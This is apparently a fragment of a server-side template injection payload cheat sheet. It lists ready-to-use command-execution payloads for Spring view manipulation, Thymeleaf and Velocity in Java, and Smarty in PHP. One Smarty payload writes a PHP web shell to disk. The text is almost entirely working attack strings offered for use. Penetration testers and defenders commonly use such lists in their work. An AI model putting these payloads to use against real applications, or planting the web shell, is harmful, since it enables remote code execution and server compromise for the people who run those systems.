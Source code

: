 #### Spring View Manipulation

Command execution

```java
__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("id").getInputStream()).next()}__::.x

__${T(java.lang.Runtime).getRuntime().exec("id")}__::.x
```

#### Thymeleaf

Command execution

```java
${T(java.lang.Runtime).getRuntime().exec('id')}

${#rt = @java.lang.Runtime@getRuntime(),#rt.exec("id")}

[[${7*7}]]
```

#### Velocity

Command execution

```java
#set($str=$class.inspect("java.lang.String").type)

#set($chr=$class.inspect("java.lang.Character").type)

#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("id"))

$ex.waitFor()

#set($out=$ex.getInputStream())

#foreach($i in [1..$out.available()])

$str.valueOf($chr.toChars($out.read()))

#end
```

### PHP

#### Smarty

Command execution

```php
{$smarty.version}

{php}echo `id`;{/php} // (< v3)

{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}

{system('id')} // (> v3)
```
